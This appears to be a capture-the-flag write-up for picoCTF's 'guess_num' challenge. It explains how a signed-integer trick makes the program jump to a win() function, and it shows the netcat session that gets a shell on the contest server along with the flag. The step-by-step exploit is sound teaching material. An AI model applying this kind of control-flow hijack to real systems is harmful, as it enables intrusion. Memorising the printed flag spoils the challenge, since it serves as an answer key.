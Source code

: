 Question:
>Just a simple number-guessing game. How hard could it be? [Binary](https://webshell2017.picoctf.com/static/b9fa00af7ee58016008b1409c837c370/guess_num) [Source](https://webshell2017.picoctf.com/static/b9fa00af7ee58016008b1409c837c370/guess_num.c). Connect on shell2017.picoctf.com:20545.

Hints:
>What is the program doing with your input number?
>strtol checks for overflow, but it does allow negative numbers...

Here's the code:
```
/* How well do you know your numbers? */

#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

void win(void) {
    printf("Congratulations! Have a shell:\n");
    system("/bin/sh -i");
}

int main(int argc, char **argv) {
    uintptr_t val;
    char buf[32] = "";

    /* Turn off buffering so we can see output right away */
    setbuf(stdout, NULL);

    printf("Welcome to the number guessing game!\n");
    printf("I'm thinking of a number. Can you guess it?\n");
    printf("Guess right and you get a shell!\n");

    printf("Enter your number: ");
    scanf("%32s", buf);
    val = strtol(buf, NULL, 10);

    printf("You entered %d. Let's see if it was right...\n", val);

    val >>= 4;
    ((void (*)(void))val)();
}
```

There's a few interesting things here. Our goal is ultimately to call `win()`. The number that is inputted is shifted to the right by 4
the `((void (*)(void))val)();` calls the function at the address of val. So basically, we want to enter in the address of the win function.

`nm` is a good command that will show us the addresses:

```
$ nm guess_num
080498c8 d _DYNAMIC
080499b4 d _GLOBAL_OFFSET_TABLE_
080486bc R _IO_stdin_used
00000000 w _ITM_deregisterTMCloneTable
00000000 w _ITM_registerTMCloneTable
00000000 w _Jv_RegisterClasses
080488b8 r __FRAME_END__
080498c4 d __JCR_END__
080498c4 d __JCR_LIST__
080499e8 D __TMC_END__
080499e8 B __bss_start
080499e0 D __data_start
080484e0 t __do_global_dtors_aux
080498c0 n __do_global_dtors_aux_fini_array_entry
080499e4 D __dso_handle
080498bc n __frame_dummy_init_array_entry
00000000 w __gmon_start__
080498c0 n __init_array_end
080498bc n __init_array_start
         U __isoc99_scanf@@GLIBC_2.7
080486a0 T __libc_csu_fini
08048630 T __libc_csu_init
         U __libc_start_main@@GLIBC_2.0
08048460 T __x86.get_pc_thunk.bx
080499e8 D _edata
08049a08 B _end
080486a4 T _fini
080486b8 R _fp_hw
0804837c T _init
08048430 T _start
08049a04 b completed.6279
080499e0 W data_start
08048470 t deregister_tm_clones
08048500 t frame_dummy
08048553 T main
         U printf@@GLIBC_2.0
         U puts@@GLIBC_2.0
080484a0 t register_tm_clones
         U setbuf@@GLIBC_2.0
08049a00 B stdout@@GLIBC_2.0
         U strtol@@GLIBC_2.0
         U system@@GLIBC_2.0
0804852b T win
$
```

So, we can easily see that `0x0804852b` is the address of the `win` function. First, we want to shift it to the left by 4:

```
$ python -c "a=0x0804852b; a<<=4; print hex(a)"
0x804852b0
$
```

Okay, so we want to input `0x804852b0`, or `2152223408`

```
$ netcat shell2017.picoctf.com 20545   
Welcome to the number guessing game!                        
I'm thinking of a number. Can you guess it?                 
Guess right and you get a shell!                            
Enter your number: 2152223408                               
You entered 2147483647. Let's see if it was right...
$
```

It looks like the number is too big. Maybe a negative number with the same binary representation will work?

```
$ netcat shell2017.picoctf.com 20545   
Welcome to the number guessing game!                        
I'm thinking of a number. Can you guess it?                 
Guess right and you get a shell!                            
Enter your number: -2142743888                              
You entered -2142743888. Let's see if it was right...       
Congratulations! Have a shell:                              
/bin/sh: 0: can't access tty; job control turned off
$ls                                                         
flag.txt                                                    
guess_num                                                   
xinetd_wrapper.sh                                           
$ cat flag.txt                                              
181db5615729e295ea7a5d5773c3829b                            
$
```

So, the flag is `181db5615729e295ea7a5d5773c3829b`
